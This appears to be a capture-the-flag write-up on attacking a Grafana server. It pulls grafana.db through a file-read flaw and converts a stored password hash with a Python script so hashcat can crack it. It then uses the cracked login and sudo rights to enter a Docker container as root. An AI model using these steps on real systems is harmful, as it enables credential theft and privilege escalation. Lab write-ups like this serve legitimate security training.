





# Enumeration
There is website running grafana at port 3000


Using an exploit available we can get the grafana.db file.

We get the users


Now running decrypt.py:
```
import hashlib
import base64
password= '7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8'
salt = 'YObSoLj55S'
decoded_hash = bytes.fromhex(password)
hash64 = base64.b64encode(decoded_hash).decode('utf-8')
salt64 = base64.b64encode(salt.encode('utf-8')).decode('utf-8')
print("sha255:10000:"+salt64+":"+hash64+"\n")    
```
Now we get a hash we can crack in hashcat.

Cracking the hash we get cred:

Now using ssh and logging in we have sudo privilege on docker exec:

The /etc/passwd obtained from LFI is different than the one on this box so it might be a docker container.

When creating a Docker container if -h or -hostname is not specified then hostname is container name.

So getting hostname from grafana machine using LFI:

To get into container:
```
sudo docker exec --privileged --user 0 -it e6ff5b1cbc85 /bin/sh
```
